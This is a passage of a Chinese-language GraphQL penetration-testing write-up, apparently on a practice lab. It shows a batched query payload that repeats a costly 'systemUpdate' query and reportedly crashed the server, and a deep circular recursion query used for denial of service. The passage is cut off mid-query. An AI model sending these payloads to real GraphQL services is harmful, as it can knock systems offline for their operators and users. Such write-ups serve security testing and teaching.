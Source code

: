 查询两次 妈的服务器性能不好直接打崩了

```bash
[{"query":"query {\n systemUpdate\n}","variables":[]},{"query":"query {\n systemUpdate\n}","variables":[]}]
```

[![](assets/1708919658-af9884238dbcdde0d838dfd72d4888e3.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218212157440.png)

实战中，我们测试到资源密集型的 Graphql 查询，就可以使用这种方法来证明 DOS

## DoS: Deep recursion query attack

深度递归查询攻击

不敢测试了 等下服务全崩了

```bash
https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql
```

post data 大概长这样：

```bash
query {
  pastes {
    owner {
      paste {
        edges {
          node {
            owner {
              paste {
                edges {
                  node {
                    owner {
                      paste {
                        edges {
                          node {
                            owner {
                              id
```
